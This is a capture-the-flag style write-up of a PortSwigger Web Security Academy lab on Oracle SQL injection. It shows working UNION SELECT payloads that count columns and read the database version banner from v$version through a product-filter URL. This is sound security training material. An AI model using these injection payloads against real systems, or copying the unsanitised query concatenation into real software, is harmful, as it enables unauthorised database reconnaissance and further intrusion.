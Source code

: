 # SQL injection attack, querying the database type and version on Oracle

![Lab banner – PortSwigger Practitioner level](1.png)

---

## Executive Summary

In the PortSwigger Web Security Academy lab “SQL injection attack: querying the database type and version (Oracle),” we demonstrated that an attacker can leak detailed version strings of the underlying Oracle Database by appending a crafted `UNION SELECT` clause to a product-search request.
Because the application simply tacks raw query-string text onto its `WHERE` clause, we were able to join the results of `V$VERSION` to the normal product list and have the database hand back its own build information.

---

## Description

![Lab banner – PortSwigger Practitioner level](2.png)

## Why This Matters to You

* **Targeted exploitation:** Exact version numbers allow attackers to map your database against public CVEs and selectively fire exploits that are known to work.
* **Defence evasion:** Knowledge of edition and patch level helps adversaries predict which auditing or security features are enabled.

---

## Step-by-Step Walk-Through

| # | What we did (payload shown URL-encoded when required)                                                               | Intended SQL generated by the app                                                          | What actually happens & why                                                                                                                              |
| - | ------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------ | -------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 1 | **Confirmed vulnerability**<br>Baseline request: `/filter?category=Gifts`                                            | `SELECT * FROM someTable WHERE category='Gifts'`                                            | Normal list of “Gifts” products returned.                                                                                                                 |
| 2 | **Counted columns** with `ORDER BY` (or `UNION NULL,NULL`) – found **2 columns**.                                   | —                                                                                          | Knowing column count is essential for a valid `UNION`.                                                                                                   |
| 3 | **Found text-compatible columns** by injecting `UNION 'a','b'` – discovered both columns accept strings.            | —                                                                                          | Confirms which positions can display arbitrary text.                                                                                                     |
| 4 | **Queried Oracle version** with<br>`/filter?category=Gifts'/**%20**UNION%20SELECT%20'a',banner%20FROM%20v$version--` | `SELECT * FROM someTable WHERE category='Gifts' UNION SELECT 'a', banner FROM v$version--'` | The second column now prints the full Oracle banner (e.g., `Oracle Database 19c Enterprise Edition Release 19.0.0.0.0 - Production`). Lab flags success. |

---

![Lab banner – PortSwigger Practitioner level](3.png)
> Queried Oracle version

---

## Observable Output

| Test / Payload                             | Visible result                                   | What it proved                          |
| ------------------------------------------ | ------------------------------------------------ | --------------------------------------- |
| Baseline (`category=Gifts`)                 | Normal product grid                              | Application behaves as intended.        |
| `UNION 'a','b'`                            | Page prints “a  b”                               | Column count & text placement verified. |
| `UNION SELECT 'a',banner FROM v$version--` | Oracle version banner strings appear on the page | **Database disclosure** confirmed.      |

---

![Lab banner – PortSwigger Practitioner level](4.png)
> The complete Oracle banner output
---

## Conclusion

By chaining basic UNION-based SQL injection techniques we extracted the exact Oracle build string information invaluable to any attacker planning further compromise. 
